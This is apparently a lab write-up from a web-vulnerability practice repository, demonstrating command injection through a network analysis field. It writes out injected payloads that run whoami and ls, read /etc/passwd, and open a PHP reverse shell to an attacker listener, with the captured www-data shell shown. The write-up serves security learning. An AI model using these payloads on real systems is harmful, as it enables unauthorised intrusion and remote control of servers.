 # Command Injection - Basics

- In the network analysis tab, I am proceeding to conduct command injection to assess the system's vulnerability.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/66d01096-35bd-492c-a5c0-5ca6bc3e7e59)

- By utilizing the command `https://<IP>; whoami;echo http/`, I successfully fetched the user information.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/42ce1d0d-aa3f-4cc5-a757-b87d896ae42e) ![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/64a847ce-b6ac-43b3-a6c6-3f829a8b585d)

- By passing the payload `https://<IP>; ls -lah;asd`, I managed to retrieve the files present in the system.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/87e86829-1b7d-4467-960c-cee1cbc12415)
![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/3a1906df-0d44-47e1-a778-986d6799425b)

- By utilizing the command `https://<IP>; cat /etc/passwd;asd` I successfully retrieved the user information.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/432522ce-e64a-4196-b2ac-f3e809a1c4a4)

- By employing the PHP reverse shell `https://<Target IP>; php -r '$sock=fsockopen("LHOST",4242);exec("/bin/sh -i <&3 >&3 2>&3");';asd`, I was able to prompt a reverse shell.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/87bcc2a3-2f00-4db3-9b73-af70191f6c2d)

#### Shell:

```bash
└─$ rlwrap nc -nvlp 4242
listening on [any] 4242 ...
connect to [192.168.251.186] from (UNKNOWN) [172.18.0.4] 59348
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
